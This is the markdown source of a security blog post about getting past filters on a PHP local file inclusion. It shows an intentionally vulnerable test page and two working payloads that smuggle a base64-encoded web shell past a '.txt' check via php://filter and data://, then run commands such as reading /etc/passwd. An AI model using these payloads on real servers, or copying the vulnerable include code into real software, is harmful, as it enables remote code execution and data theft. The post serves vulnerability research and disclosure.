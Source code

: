 ```yaml
---
id: 299
title: 'One LFI bypass to rule them all (using base64)'
date: '2023-07-20T06:51:37+00:00'
author: matan.honig2@gmail.com
guid: 'https://matan-h.com/?p=299'
permalink: /one-lfi-bypass-to-rule-them-all-using-base64/
image: /assets/images/PHP-filter-etc-passwd-example-com.webp
excerpt: 'bypass most PHP filters using only base64'
categories:
    - cyber
tags:
    - base64
    - cyber
    - php
    - php-filter
---
```


## Backstory:

On one of the \[real world\] PHP websites, I found an [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion) \[there was a URL parameter that checked if the value ends with ‘txt’. If so, it would just display it\]. So, I reported to the site owner that I have a RCE using PHP filters (using `php://filter/convert.quoted-printable-encode/resource=data:text/plain`,`phpcode`, because HTTP was already blocked) to the owner, and he decided to just block PHP start (<?php) and end (?&gt;) tags. So now, how can I bypass this block (no file upload on this server)?

The solution according to the book is to simply use [PHP filter chain](https://book.hacktricks.xyz/pentesting-web/file-inclusion/lfi2rce-via-php-filters). But… I don’t really like this way of exploitation – it makes the exploit very long, and it’s completely unreadable. So let’s imagine the site URL has a length filter, or it blocks the pipe char. There must be another way to do this, right?

Basically, what PHP filter chain does is to collect characters for a Base64 string ([using PHP filter group](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d) called `convert.iconv`) then base64 decode it. Maybe I could just supply the base64 and then decode it, without collecting the base64 string?

For that, I need a base64 string that’s ending with ".txt". When I asked the Cyber king of misleading information, it gave me this:

![chatgpt answer: "just append .txt to the base64 encoded string"](/assets/images/chatgpt-asked-about-b64-endswith.webp)

<figcaption class="caption-center">ChatGPT, when asked about creating a base64 that ends with ".txt"</figcaption>

At first glance, this seems completely unhelpful. You can’t just add ".txt" and hope it stays base64. But a little research revealed that PHP works differently.

## Update: Create test site

Let’s create our vulnerable PHP test website: (credit for the [template](https://github.com/computer-engineer/WhiteboxPentest/blob/main/Vulnerable%20Code%20Examples/php/lfi.php) to **[WhiteboxPentest](https://github.com/computer-engineer/WhiteboxPentest)** on GitHub).

[truff](https://hackerone.com/truff) from [Projet7](https://www.projet7.org/) did some research, and he found that my exploit works only with `include` or `require` and not with ``file_get_contents``. Additionally, it requires the website to be configured with `allow_url_include:On`.


```php
<body style="background-color:#82e2ff">
    <form method="GET">
        <label>Select Timezone</label>
        <select name="file">
            <option value="america.txt">America/New_York</option>
            <option value="asia.txt">Asia/Singapore</option>
        </select>
        <input type="submit" value="Display time"/>
    </form>

    <?php
    if(isset($_GET['file'])) {
        $file = $_GET['file'];

        // Check if the file starts with "http"
        if (strpos($file, "http") === 0) {
            echo "Files starting with 'http' are not allowed.";
        } else {
            if (strpos($file, "<?php") !== false || strpos($file, "?>") !== false || strpos($file, "|") !== false) {
                echo "blocked";
                echo (strpos($file, "|") !== false) ? " (php tag)" : " (pipe character)";
            } else {
                if (substr($file, -3) === "txt") {
                    include($file);
                } else {
                    echo "the file " . htmlentities($file) . " is not a txt file";
                }
            }

            echo "<br><br>the base64 decode was:<br>";
            echo htmlentities(base64_decode(explode(",", $file)[1]));
            echo "";
        }
    }
    ?>
</body>

```

You need also to [find php.ini](https://tecadmin.net/where-is-php-ini/), and change `allow_url_include` from `Off` to `On`. Now you are ready for research: You can start the server and start to explore PHP’s base64 decode filter

```bash
php -S 0.0.0.0:2000
```

Now go to <http://0.0.0.0:2000/vulnerable.php?file=php://filter/convert.base64-decode/resource=data://plain/text,SGVsbG8sIFdvcmxkLg>. (that should just output "the file … is not a txt file")

- - - - - -

Now, you can pause reading this article and try to run code yourself.

- - - - - -

### Details

PHP has a unique way of handling base64 using the `convert.base64-decode` filter. It just ignores non-base64 characters. That means that if I try to decode this base64 string:"<red>bWF0YW4ta</red><green>&&</green><red>C5j</red><green>#</green><red>b20K</red><green>….?</green><red>PHP=</red>"

the PHP will just ignore all non-base64 characters, and decode it like it was: "<red>bWF0YW4taC5jb20KPHP=</red>" (decoded to be "matan-h.com<s").

If I took a more useful example from [hacktricks](https://book.hacktricks.xyz/welcome/readme) : let’s try "<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=</red>" (which means "<?php system($\_GET\[‘cmd’\]);echo ‘Shell done !’; ?&gt;") and let’s try to make this end with ".txt" and still get a valid base64 without the dot. Turns out this is very easy : all I needed to do was to remove the padding (the `=` sign at the end) and replace it with ".txt" (you could also use other extensions such as .php, etc. as long as they can be in base64). To make the base64 more human-readable, let’s add a plus before the extension. It does not do much in the way of PHP decode base64, but if we try to decode the extension with `base64` in bash (without the "."), it will be happy. So we get the first RCE payload:

<green>?cmd=cat%20/etc/passwd&file=<darkgreen>PHP://filter/convert.base64-decode/resource=data://plain/text,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4</red><blue>+.txt</blue></darkgreen></green>

![](/assets/images/PHP-filter-etc-passwd-example-com.webp)
<figcaption class="caption-center">Screenshot of the start of /etc/passwd of that site using PHP://base64-decode filter</figcaption>
I reported this to the owner, and he decided to just block `php://` protocol (all cases).

But the LFI was also open to the data:// protocol. In normal cases, data:// is used for plain text like this: `data://text/plain,<?php phpinfo();?>`, but data:// can also be used to decode base64. Using `data://text/plain;base64`. But this time, `data:` does not ignore non-base64 characters. Are we sure we really need them?

Apparently, the server only implements the check if the file ends with "<blue>txt</blue>"(without dot). Not with "<red>.</red><blue>txt</blue>" (with dot). That means, I could just take the previous payload, remove the "." and throw this into the `data` protocol and get the second RCE payload (for some reason, I could decode this only using PHP. Python or bash \[using GNU base64\] required me to add an equal sign after the "txt" to complete the padding.):
<green>?cmd=id&file=<darkgreen>data://text/plain;base64,<red>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4<blue>+txt</blue></red></darkgreen></green>

![](/assets/images/data-payload-id-example-com.webp)
<figcaption class="caption-center">Screenshot of the output of the command "id" of that site using the `data://` protocol</figcaption>
I didn’t find this trick on Google. So I posted it here. I hope that this post informed you


Disclaimer: This article is intended for educational and informational purposes only and should not be used for any illegal or malicious activities.
